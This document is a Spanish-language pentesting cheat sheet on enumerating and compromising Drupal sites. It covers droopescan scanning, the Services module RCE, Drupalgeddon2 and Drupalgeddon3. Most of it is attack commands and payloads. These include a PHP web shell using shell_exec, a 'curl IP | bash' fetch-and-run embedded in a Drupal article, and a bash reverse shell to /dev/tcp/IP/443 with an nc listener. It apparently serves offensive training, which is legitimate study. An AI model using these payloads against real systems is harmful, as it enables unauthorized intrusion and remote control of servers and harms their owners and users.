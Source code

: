 ybn# Drupal 

Tags: #Drupal #CMS #Ñ 

## Enumeración de gestores de contenido (CMS) – Drupal

Drupal ofrece un alto grado de personalización y escalabilidad, lo que lo convierte en una opción popular para sitios web complejos y grandes. Drupal se utiliza en una amplia gama de sitios web, desde blogs personales hasta sitios web gubernamentales y empresariales. Es altamente flexible y cuenta con una amplia variedad de módulos y herramientas que permiten a los usuarios personalizar su sitio web para satisfacer sus necesidades específicas.

Una de las herramientas que veremos en esta clase para enumerar un Drupal es la herramienta **droopescan**. Droopescan es una herramienta de escaneo de seguridad especializada en la identificación de versiones de Drupal y sus módulos, y en la detección de vulnerabilidades conocidas en ellos. La herramienta realiza un escaneo exhaustivo del sitio web para encontrar versiones de Drupal instaladas, módulos activos y vulnerabilidades conocidas, lo que ayuda a los administradores de sistemas y desarrolladores a identificar y solucionar los problemas de seguridad en sus sitios web.

Con esta herramienta, se pueden llevar a cabo análisis de seguridad en sitios web basados en Drupal, lo que puede ayudar a prevenir posibles ataques y problemas de seguridad en el futuro.

* [Drupal](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600)

## Rutas típicas de Drupal en la web 

```bash 
/CHANGELOG.txt         # Muestra la versión e info de Drupal 
```

## Drupal Enumeración 

Esta herramienta además de enumerar un servidor Drupal

-   [Droopescan](https://github.com/SamJoan/droopescan)

```bash 
❯ droopescan scan drupal --url https://IP/
```

## Exploit PHP

```bash 
❯ Drupal 7.x Module Services - RCE

# Modificar los siguientes parametros dentro del script de PHP
1. URL
2. Verificar la ruta de 'rest' o 'rest_endpoint' en 'endpoint_path'
3. Colocar el payload de la siguiente manera en 'data' y cambiar el nombre al archivo de subida 'pwned.php':

	'<?php echo "<pre>" . shell_exec($_REQUEST[\'cmd\']) . "</pre>"; ?>' 
 
❯ php drupal_exploit.php             # Ejecutar el exploit 
❯ http://IP/pwned.php?cmd=whoami     # Ejecutar comandos en la web y generar una revershell 
```

## Drupalgeddon2 - RCE 

```bash 
# Funciona para las versiones 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x < 7.58 / < 6.x

# Instalar 
❯ gem install highline 

❯ ruby drupalgeddon2.rb http://IP     # Ejecutar el exploit para crear una shell 
```

## Drupalgeddon3 - RCE

```bash 
❯ git clone https://github.com/oways/SA-CORE-2018-004/tree/master      # Clonar el repositorio 

❯ python3 drupalgeddon3.py http://IP "SESSg135=gq34tw34g" 1 "whoami"

	# SESS = Es la 'session_name' y el 'session_id' obtenidas del drupalgeddon2 o al iniciar sessión con la cuenta del admin
	# 1 = Es un numero de nodo existente dentro de la web, este se obtiene dentro de la web en 'Content > Find Content' y al colocar el cursor encima de algun recurso mostrará un numero 


Nota:
	1. El script te ayudará a ejecutar comandos, por lo que se puede crear una revershell
```

## Obtener una Shell en Drupal 

```bash 
1. Dentro del CMS, crear un articulo y en el cuerpo escribir codigo php y para ejecutar el código se debe dar click en 'Preview'. 

	<?php 
		system("curl IP | bash ");
	?>


2. Se debe compartir y crear el archivo del recurso en la maquina Kali de la siguiente manera:
❯ python3 -m http.server 80

❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/IP/443 0>&1

❯ nc -nlvp 443    # Escuchar en el puerto para recibir la revershell 


Nota:
	1. Si en el articulo no sale la opción de 'PHP Code' se puede activar en 'Modules > Filter PHP' para que interprete el codigo de la revershell. 
```